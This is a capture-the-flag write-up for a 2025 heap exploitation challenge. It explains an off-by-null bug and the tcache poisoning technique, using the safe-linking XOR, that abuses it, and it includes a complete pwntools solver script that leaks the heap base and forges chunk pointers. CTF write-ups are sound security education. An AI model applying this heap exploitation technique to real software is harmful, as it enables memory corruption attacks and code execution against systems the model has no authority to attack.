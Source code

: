 # Kinderheim 511

## challenge information
Surdnlen CTF 2025: [challenge](https://ctf.srdnlen.it/challenges#challenge-13)

`pwn heap 59 solves`
> Long live the expo. No wait, I mixed that one up.
> This is a remote challenge, you can connect to the service with: nc k511.challs.srdnlen.it 1660

## analysis
* vulnerability
  * there is an off-by-null vulnerability  in `implant_user_memory`.
![Screenshot_20250121_120920.png](Screenshot_20250121_120920.png)
  * there is also a vulnerability in `erase_memory`
  * the slot list will not be initialized if there is memory whole.
![Screenshot_20250121_122340.png](Screenshot_20250121_122340.png)
  * exploit flow
    * heap leak
      * alloc 0x40
      * alloc 0x10
      * free 1
      * free 2
      * reallocate 0x40
      * recollect_memory 2
    * tcache poisoning
      * create chunk
      * create chunk
      * remove first chunk
      * reallocate chunk with off by null and rewrite the size of next chunk(0x10 + `inuse flag`).
      * create chunk
      * remove reallocated chunk
      * reallocate chunk with off by null and rewrite the size of next chunk(0x30 + `inuse flag`).
      * the previous operation concat 0x10 chunk and next 0x20 chunk.
      * remove the next of reallocated chunk
      * reallocate chunk and overwrite the next by (heap-base>>12 ^ slot-list)
      * then, tcache will create in the slot-list
      * reallocate with padding and flag address

Why overwrite the next by (heap-base>>12 ^ slot-list) is safe-linking.
```c
/* Safe-Linking:
   Use randomness from ASLR (mmap_base) to protect single-linked lists
   of Fast-Bins and TCache.  That is, mask the "next" pointers of the                                          
   lists' chunks, and also perform allocation alignment checks on them.
   This mechanism reduces the risk of pointer hijacking, as was done with
   Safe-Unlinking in the double-linked lists of Small-Bins.
   It assumes a minimum page size of 4096 bytes (12 bits).  Systems with
   larger pages provide less entropy, although the pointer mangling
   still works.  */
#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
```
heap information after rewrite size of chunk (0x21 -> 0x11) by off-by-one vulnerability.

![Screenshot_20250122_142045.png](Screenshot_20250122_142045.png)

heap information after rewrite size of chunk 0x11 -> 0x31
as you can see, purple area's size is 0x31, but purple area+0x30 is located at the next chunk.

![Screenshot_20250122_142220.png](Screenshot_20250122_142220.png)


## solver

```Py
from pwn import *

e = ELF("./k511.elf")
p = e.process()

gdb.attach(p,"""b *main+150
            set max-visualize-chunk-size 0x300
           """)

def create(content: bytes)->int:
    #p.recv()
    print(p.recv())
    p.sendline(b"1")
    p.recvuntil(b"Input your memory (max 64 chars).")
    p.sendline(content)
    p.recvuntil(b"Memorized in slot ")
    slot = int(p.recvline().decode().replace(".","").strip())
    return slot

def delete(slot: int):
    #p.recv()
    print(p.recv())
    p.sendline(b"3")
    p.recv()
    p.sendline(str(slot).encode())

def show(slot: int)->bytes:
    #p.recv()
    print(p.recv())
    p.sendline(b"2")
    p.recvuntil(b"require.\n")
    p.sendline(str(slot).encode())
    p.recvuntil(b"\"")
    res =  p.recvuntil(b"\"",drop=True)
    print(f"show({slot}): {res}")
    return res

def main():
    create(b"1"*0x3f)
    create(b"2"*0xf)
    delete(1)
    delete(2)
    create(b"3"*0x3f)
    heap_leak = u64(show(2).ljust(8,b"\x00"))
    heap_base = heap_leak * 0x1000
    slot_list = heap_base + 0x2a0
    log.info(f"heap_leak: {hex(heap_leak)}")
    log.info(f"heap_base: {hex(heap_base)}")
    log.info(f"slot_list: {hex(slot_list)}")
    create(b"4"*0xf)
    create(b"5"*0x27)
    num0 = create(b"6"*0x10)
    delete(4) #delete "5"*0x27
    num1 = create(b"7"*0x28+b"\x11\x00")
    num2 = create(b"8"*0x17)
    num3 = create(b"c"*0x17)
    #num3 = create(b"b"*0x17)
    delete(num1)
    create(b"9"*0x28+b"\x31\x00")
    delete(num3)
    delete(num2)
    delete(num0)
    #delete(num3)
    num4 = create(b"a"*0x20+p64(heap_base>>12^slot_list))
    #delete(num4)
    #create(b"c"*0x18+p64(0x21))
    create(b"PADDINGPADDING")
    create(b"DEADBEAF"+p64(heap_base + 0x330))
    create(b"PWNAGEPWNAGEPWNAGE")
    show(1)
    p.interactive()


if __name__ == "__main__":
    main()
```
